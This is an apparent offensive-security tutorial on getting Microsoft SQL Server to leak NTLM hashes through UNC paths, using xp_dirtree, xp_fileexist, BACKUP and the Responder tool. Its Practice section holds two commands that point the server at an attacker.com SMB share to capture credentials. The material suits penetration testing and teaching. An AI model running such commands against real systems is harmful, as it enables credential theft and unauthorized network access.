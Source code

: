 ```yaml
---
title: Exploit MSSQL UNC Path for NTLM Hash Capture
description: Learn how to exploit MSSQL UNC path to capture NTLM hashes with execution
  methods and strategies for network exfiltration.
keywords:
- MSSQL UNC Path
- NTLM hash capture
- network exfiltration
- xp_dirtree
- xp_fileexist
- SQL injection
- Responder tool
---
```


# MSSQL UNC Path

## Context

This article aims to provide insights into exploiting MSSQL UNC Path vulnerabilities for network exfiltration and NTLM hash capturing. This technique involves leveraging SQL injection on Microsoft SQL Server to trick the server into accessing remote resources via UNC paths, thus capturing authentication hashes. Readers should already understand UNC paths, NTLM authentication, network file sharing, and have experience with SQL injection in Microsoft SQL Server.

## Theory

### UNC Path Exploitation in MSSQL

Universal Naming Convention (UNC) paths are a way to identify resources on a network, such as files and directories. When SQL Server accesses these paths, it may inadvertently leak NTLM hashes, which could be exploited by attackers to capture credentials. This vulnerability arises because MSSQL can be directed to interact with resources over a network by leveraging these paths.

### Using xp_dirtree and xp_fileexist

`xp_dirtree` and `xp_fileexist` are extended stored procedures in MSSQL. `xp_dirtree` lists directories, and `xp_fileexist` checks for file existence. Both can be manipulated to access a UNC path. An attacker can exploit these procedures to invoke remote paths, triggering MSSQL to send NTLM authentication details to the specified location.

### Backup and Restore Methods

The `BACKUP` and `RESTORE` commands in MSSQL allow database backups to be written to or restored from a specified location. By directing these operations to a network location using a UNC path, attackers can encourage MSSQL to authenticate, thereby capturing authentication details in the process.

### Hash Leakage Techniques

NTLM hashes are used in Windows environments as part of authentication processes. When MSSQL accesses a network resource via a UNC path, it attempts to authenticate using these NTLM hashes. An attacker can set up a malicious SMB server to intercept these authentication requests and capture the transmitted hashes.

### NTLM Capture Mechanisms

NTLM authentication can be intercepted by setting up listeners that capture attempted connections. By directing MSSQL to a known monitoring platform configured for such interceptions, attackers can capture these hashes and use them for unauthorized access to the network.

### Network Exfiltration Strategies

Data exfiltration is the unauthorized transfer of data from a network. Utilizing UNC paths, attackers can direct MSSQL to access and authenticate against an external server, enabling data and credentials to be leaked over SMB.

## Practice

### Exploiting xp_dirtree for UNC Path Access

- **Execute the following command to trigger MSSQL to access the UNC path:**
  
  ```bash
  EXEC xp_dirtree '\\attacker.com\share';
  ```

  This command directs the MSSQL server to list directories on the specified UNC path, initiating an authentication attempt.

- **Set up Responder to capture NTLM hashes:**

  Responder is a tool that listens for authentication requests over the network and captures any NTLM hashes that are transmitted.

### Using BACKUP Command for UNC Path Exploitation

- **Force MSSQL to authenticate to the UNC path using the BACKUP command:**

  ```bash
  BACKUP DATABASE test TO DISK = '\\attacker.com\share\backup.bak';
  ```

  The BACKUP command specifies a network location to store the backup, prompting the server to authenticate.

- **Monitor with Responder for NTLM hash capture:**

  Ensure Responder is active on the network to catch any outgoing authentication attempts and capture the NTLM hashes.

## Tools

- **Responder**